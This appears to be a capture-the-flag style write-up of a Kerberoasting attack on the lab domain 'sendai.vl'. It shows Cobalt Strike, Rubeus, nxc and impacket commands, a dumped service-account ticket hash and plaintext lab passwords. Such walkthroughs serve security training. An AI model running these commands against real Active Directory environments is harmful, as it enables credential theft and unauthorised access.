

## Entry
Kerberos is a widely used authentication protocol in Active Directory environments. While it was designed with security in mind, misconfigurations and weak password hygiene can introduce serious vulnerabilities. One of the most well-known and impactful attacks against Kerberos is Kerberoasting.

## Enumerate and Attack /w Cobalt Strike

Command to execute
```sh
powerpick Get-DomainUser | select cn,serviceprincipalname
```


we can see basicly **sqlsvc** kerberoastable user and we can dump hash with rubesus

Command to execute
```sh
[05/18 22:30:00] beacon> execute-assembly /home/elliot/tools/Rubeus.exe kerberoast /nowrap
[05/18 22:30:01] [*] Tasked beacon to run .NET program: Rubeus.exe kerberoast /nowrap
[05/18 22:30:02] [+] host called home, sent: 556256 bytes
[05/18 22:30:04] [+] received output:

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : sendai.vl
[*] Searching path 'LDAP://dc.sendai.vl/DC=sendai,DC=vl' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : sqlsvc
[*] DistinguishedName      : CN=sqlsvc,OU=services,DC=sendai,DC=vl
[*] ServicePrincipalName   : MSSQL/dc.sendai.vl
[*] PwdLastSet             : 7/11/2023 2:51:18 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

$krb5tgs$23$*sqlsvc$SENDAI.VL$sendai.vl/sqlsvc*$91c92807eced2d7d50ec1705d80915aa$95ded72c259a2abfeecc5e832af4bd26d91d5891d985de9b9cc6e8da730309c6fb9ba60ca9ce709fd04041170fe74cfc4525e517073d2c88273f78439a50d8956d73718024bd29a15ae130b13f0695e2ecebf8019e07a2dc125d80f0b6376a0cf4f108a8ef2389b249a2781ca046c84168cd1c07f28f5d5fca434d6e46d77156fe0997c0622204207a9e2af744fba1547510cfa4737a4b669e8619980b71c91bfe2e5c2881eb23d9db1dd171f42fde3c4094dfc529ef1d7f5714209e9d064d3de319d8eaa60b1961841a183412a5bca2c55e76a1a1a111149b2cea3b7c1b77b20b612e5cc262c408ea8532b8f236b4b376abf007b5adaf7d27641cd8cec09d48a1039b49814d76186d8e7bd65764fa711717ec5b54834f0fd9269dc5c87db36883e9f71188c546cd6c4fb0c24f79382bf927c3b4b08d32775a367bca6f859347f96d2e44a4cc21e0a1f71a62bbab5158dc1072ad347032d3e4a18d749fb738724dde224a261d643b6a59aba04f70a098f8533bb04eccd1819afef57c5c0b8752198f854adfa1df549de9501549032f0633cc7b0071646b4b664b52691696467553e4aaf4400f959aaa2cd2eec306d1dd6582763991aa7d78aa66bcb13cdf265574251eb2efe43403c3c7d5b3d2e8f414a90b13d285d4ea943723784b558129a0a6ec37cf262b8a16bd5c973366b911aea1721e91e0f8985f6dc981fc7122f913ef7b8412d6c77027774026da294a34ff57bc156394f089bec0beb3fef5bdc72821b3ab8a840ba25a79ddd79d1619bcc12b985fb74f58b422b4b4c6078d8b57adfd04b4fd0d273a0e87d3d2d873f4f2409c4a9a24a94f130945d02fbf395740ba11fbcd772109f4ff8249e81b8fa23ee9294e866bc36bc11e1e631443413e173f3b091f258becab1fe46c3b17f5e86f6ab2f141026dc970f0ebcec4814df7873d7f6de64b3572c07e0481ef8e56ead287e85ac8d52bc9a9dbbc57eb1d15e5e2d4dc8f9e02dea39e86172d1384ecae0882837689d5801b1c0a70eef1aa054299d5c31912393ab95ee05f17320bff64496f6084dcd93c978d8454c80bfba0e2bb9c2ac122cc74adadc9fba030248f8842f26a2aa4725c97e372d84fa98e749d47f7917b4b0d614216e9757ab5e7fc9e25c3f9ffa409464263b68ba3292b47598d51e03ebf324e1df20a7fd85db8b40d625098fe50e47a664bbeba56e391e9ded2074fe8d4b6d211c4b2a5f68a830f5af76e8112f43136798cf3f0ae45b057c8a3829dbb00e18538bcc3c97f89619c79259b9b735e5b34a8b5b3a4350419dbdf72822a9c19c57436619d70655104090c1875b859ea84f65ddd3efac9ebb31574c988b6e366f8538639b950332e2ee08a4fa87d46ee1b761c3068704da6c54b43ea7ae8b907ae4a44bed0c7686ff5ebfaf8da03a24112d3f759e5e565c08e3ef9c416b2d76ce833eecf0e34f672ac04db3b54eba03cdb4d1e1e1b8af1eb207de3ef0129b1b980696d3f0070c26234fc6e8388e7435b2310d947dc575fd542ef9ab4345bfdfd77db53
```

## Linux Abuse 

If we can dump BH data we can realize on.


Now we can use 2 commands nxc can do this also with impacket tools.

### with nxc
Commands to execute:
```sh
nxc ldap DC.sendai.vl -u 'Thomas.Powell' -p 'Password123!' --kerberoasting hash.txt
```


### with impacket
Commands to execute:
```sh
GetUserSPNs.py -request -dc-ip DC.sendai.vl sendai.vl/Elliot.Yates:'Password123!'
```

